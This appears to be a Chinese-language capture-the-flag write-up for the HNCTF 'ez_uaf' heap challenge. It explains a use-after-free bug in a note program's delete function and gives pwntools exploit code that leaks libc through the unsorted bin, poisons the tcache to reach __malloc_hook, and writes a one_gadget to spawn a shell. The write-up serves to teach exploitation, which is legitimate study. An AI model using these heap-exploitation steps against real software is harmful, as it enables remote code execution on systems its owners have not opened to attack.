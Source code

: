 ```yaml
---
title: '[HNCTF 2022 WEEK4] ez_uaf'
date: 2024-04-03 13:00:00 +0800
categories: [uaf,unsortedbin,leak_libc]
tags: [ctf,pwn]
---
```


```shell
[*] '/home/bamuwe/ez_uaf/ez_uaf'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

> $ checksec ./ez_uaf

```shell
Easy Note.
1.Add.
2.Delete.
3.Show.
4.Edit.
Choice:
```

> $ ./ez_uaf

```c
__int64 delete()
{
  __int64 result; // rax
  signed int v1; // [rsp+Ch] [rbp-4h]

  puts("Input your idx:");
  v1 = getnum();
  if ( v1 <= 0xF && *(*(&heaplist + v1) + 28LL) )
  {
    free(*(*(&heaplist + v1) + 16LL));
    free(*(&heaplist + v1));
    result = *(&heaplist + v1);
    *(result + 28) = 0;
  }
  else
  {
    puts("Error idx!");
    return 0LL;
  }
  return result;
}
```

> delete()漏洞函数,没有清除指针

```python
def add(size,name,content):
    io.sendlineafter(b'Choice: \n',b'1')
    io.sendlineafter(b'Size:\n',str(int(size)))
    io.sendafter(b'Name: \n',name)
    io.sendafter(b'Content:\n',content)

def free(idx):
    io.sendlineafter(b'Choice: \n',b'2')
    io.sendlineafter(b'idx:\n',str(int(idx)))

def show(idx):
    io.sendlineafter(b'Choice: \n',b'3')
    io.sendlineafter(b'idx:\n',str(int(idx)))
    
def edit(idx,content):
    io.sendlineafter(b'Choice: \n',b'4')
    io.sendlineafter(b'idx:\n',str(int(idx)))
    io.send(content)
```

> 交互函数

程序逻辑:

1. `add()`一个`chunk`
2. `free()`这个区块后仍然可以对这个区块进行`edit()`,`show()`

利用思路:

1. 利用unsortbin指向自身的特点,泄露出`main_arena`的地址,进而泄露出`__malloc_hook`的地址

   ```python
   add(0x410,b'a',b'a')    #0
   add(0x20,b'b',b'1111')  #1						#后续利用的chunk
   add(0x10,b'c',b'c')     #2						#后续利用的chunk
   free(0)                                         #unsortbin指向自身
   show(0)
   #leak_libc
   io.recvuntil(b'\n')
   malloc_hook_addr = u64(io.recv(6).ljust(8,b'\x00'))-96-16
   success(f'malloc_hook_addr=> {hex(malloc_hook_addr)}')
   lib_offset = malloc_hook_addr - lib.sym['__malloc_hook']
   one_gadgets_addr = 0x10a2fc+lib_offset			#后续利用
   ```

   ![image-20240430195924018](../assets/img/old_imgs/image-20240430195924018.png)

2. 释放`chunk1`并且修改`chunk1`的`fd`的地址为`__malloc_hook`的地址,制造`fake_chunk`

   ```python
   free(1)
   edit(1,p64(malloc_hook_addr))       # 修改fd
   ```

   ![image-20240430200315872](../assets/img/old_imgs/image-20240430200315872.png)

3. 利用`fake_chunk`修改`__malloc_hook` 的内容为`one_gadget`,重新`add()`一个`chunk`得到`shell`

   ```python
   add(0x10,b'2',b'2')     #3          #tcachebin规则          
   add(0x20,b'3',b'3')     #4        #fake_chunk,地址为malloc_hook_addr
   edit(4,p64(one_gadgets_addr))
   
   io.sendlineafter(b'Choice: \n',b'1')
   io.sendlineafter(b'Size:\n',b'0x20')
   ```

   提到`tcachebin`规则,由上图可知,当前`tcachebin`在`malloc_hook`之前还有两个堆块,所以我们要填充再利用

关于`unsortedbin`:

> 1.当一个较大的 chunk 被分割成两半后，如果剩下的部分大于 MINSIZE，就会被放到 unsorted bin 中。
>
> 2.释放一个不属于 fast bin 的 chunk，并且该 chunk 不和 top chunk 紧邻时，该 chunk 会被首先放到 unsorted bin 中。关于 top chunk 的解释，请参考下面的介绍。
>
> 3.当进行 malloc_consolidate 时，可能会把合并后的 chunk 放到 unsorted bin 中，如果不是和 top chunk 近邻的话。


